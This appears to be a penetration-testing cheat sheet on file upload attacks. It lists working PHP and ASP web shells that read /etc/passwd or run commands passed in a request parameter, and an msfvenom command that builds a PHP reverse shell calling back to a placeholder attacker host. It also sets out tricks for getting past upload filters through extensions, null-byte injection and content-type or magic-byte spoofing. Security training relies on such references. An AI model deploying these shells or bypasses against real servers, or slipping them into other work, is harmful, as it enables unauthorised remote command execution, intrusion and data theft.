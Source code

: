 # Web Shells

## Web Shell	Description
| Web Shell                                               | Description                           |
|---------------------------------------------------------|---------------------------------------|
| `<?php file_get_contents('/etc/passwd'); ?>`           | Basic PHP File Read                   |
| `<?php system('hostname'); ?>`                         | Basic PHP Command Execution           |
| `<?php system($_REQUEST['cmd']); ?>`                   | Basic PHP Web Shell                   |
| `<% eval request('cmd') %>`                             | Basic ASP Web Shell                   |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| PHP Web Shell                                           | PHP Web Shell                         |
| PHP Reverse Shell                                       | PHP Reverse Shell                     |
| Web/Reverse Shells                                      | List of Web Shells and Reverse Shells|

# Bypasses

## Client-Side Bypass	
- [CTRL+SHIFT+C]	Toggle Page Inspector

## Blacklist Bypass	
- `shell.phtml`	Uncommon Extension
- `shell.pHp`	Case Manipulation

## PHP Extensions	
- List of PHP Extensions

## ASP Extensions	
- List of ASP Extensions

## Web Extensions	
- List of Web Extensions

## Whitelist Bypass	
- `shell.jpg.php`	Double Extension
- `shell.php.jpg`	Reverse Double Extension
- `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, …	Character Injection - Before/After Extension

## Content/Type Bypass	
- Web Content-Types	List of Web Content-Types
- Content-Types	List of All Content-Types
- File Signatures	List of File Signatures/Magic Bytes

## Limited Uploads
| Potential Attack | File Types            |
|------------------|-----------------------|
| XSS              | HTML, JS, SVG, GIF   |
| XXE/SSRF         | XML, SVG, PDF, PPT, DOC |
| DoS              | ZIP, JPG, PNG        |
